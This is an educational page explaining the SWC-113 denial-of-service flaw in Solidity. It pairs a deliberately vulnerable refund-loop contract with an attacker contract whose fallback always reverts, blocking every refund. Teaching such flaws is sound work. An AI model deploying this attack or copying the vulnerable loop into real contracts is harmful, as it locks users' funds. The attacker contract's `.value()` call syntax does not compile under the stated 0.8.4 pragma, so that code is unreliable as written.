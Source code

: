 # DoS Attack Contract

This set of contracts shows how a contract may be susceptible to a denial of service attack by an unexpected revert ([SWC-113](https://swcregistry.io/docs/SWC-113){target=_blank}).

The `VulnerableContract` loops over the subscribers array, making a transfer to each address. This is dangerous because when the `refundFees()` function is called and the `VulnerableContract` attempts to send funds to the `MaliciousContract`, the `MaliciousContract` fallback function is called, which stops execution and reverts. This transaction will never succeed and `refundFees()` will never successfully execute, preventing any subscribers from getting their subscription fee back.

```
pragma solidity 0.8.4;

// Example DenialOfService Attack  
contract VulnerableContract {    
  address owner = msg.sender;    
  address payable[] public subscribers;    
  uint FEE_COST = 1 ether;          
  
  function subscribe() public payable {        
    require(msg.value == FEE_COST, "Insufficient msg.value");        
    subscribers.push(msg.sender);    
  }          
  
  function refundFees() public {        
    require(msg.sender == owner, "msg.sender should be owner");        
    for(uint i = subscribers.length; i > 0; i--) {            
      subscribers[i - 1].transfer(FEE_COST);            
      subscribers.pop();        
    }
  }          
  
  function getBalance() view public returns(uint) {        
    return address(this).balance;    
  }          
  
  // Auxiliar function for demo. It wouldn't be present in a vulnerable contract    
  function removeLastSubscriber() public {        
    subscribers.pop();    
  }
  
}  
  
contract MaliciousContract {    
  VulnerableContract vulnerableContract = VulnerableContract(0x5E72914535f202659083Db3a02C984188Fa26e9f);          
  
  function subscribe() public payable {        
    vulnerableContract.subscribe.value(msg.value)();       
  }          
  
  fallback() external payable {        
    require(false);    
  }
}
```